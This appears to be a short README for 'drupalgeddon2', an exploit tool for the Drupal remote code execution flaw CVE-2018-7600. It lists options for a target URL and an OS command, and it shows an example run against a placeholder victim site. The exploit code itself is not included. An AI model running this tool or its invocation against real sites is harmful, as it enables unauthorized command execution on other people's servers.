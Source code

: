 # drupalgeddon2
Exploit for CVE-2018-7600.

Usage: drupalgeddon2 options 

       -h: Url target
       -c: OS command

Examples:
        drupalgeddon2.py -h http://www.victim.com -c 'ls -la'


Based in https://github.com/FireFart/CVE-2018-7600